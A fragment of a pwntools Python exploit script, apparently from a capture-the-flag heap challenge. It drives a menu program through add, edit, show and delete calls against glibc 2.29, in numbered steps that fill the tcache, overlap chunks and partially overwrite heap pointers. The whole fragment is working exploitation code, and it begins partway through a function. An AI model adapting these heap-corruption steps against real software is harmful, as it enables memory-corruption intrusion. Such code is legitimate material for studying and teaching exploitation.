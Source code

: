 ````python
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil('?')
	sh.sendline(str(size))

def edit(index,content,full=False):
	choice(3)
	sh.recvuntil('?')
	sh.sendline(str(index))
	sh.recvuntil(':')
	if full:
		s(content)
	else:
		sh.sendline(content)
libc=ELF('/glibc/2.29/amd64/lib/libc-2.29.so')
def show(index):
	choice(2)
	sh.recvuntil('?')
	sh.sendline(str(index))

def delete(index):
	choice(4)
	sh.recvuntil('?')
	sh.sendline(str(index))
#1 step
for i in range(7):
	add(i,0x20)
add(7,0x7830)
#2 step
add(7,0x4f0) #A
add(8,0x10)
#3 step
delete(7)
add(8,0x5f0)
#4 and 5 step 
for i in range(3):
	add(7+i,0x20) 
add(9,0x20)
edit(7,p64(0)+p64(0xf1)+'\x30',full=True)  #B
#6 step
for i in range(7):
	delete(i)
add(0,0x10)
delete(9)
delete(8)
add(0,0x500)
#7 step
for i in range(7):
	add(i,0x20)
add(8,0x20)
add(9,0x20)
edit(8,p64(0)+'\x10',full=True)
#8 step
for i in range(7):
	delete(i)
delete(9)
delete(7)
#9 step
for i in range(7):
	add(i,0x20)
add(7,0x20)
add(9,0x20)
edit(7,'\x10',full=True)
````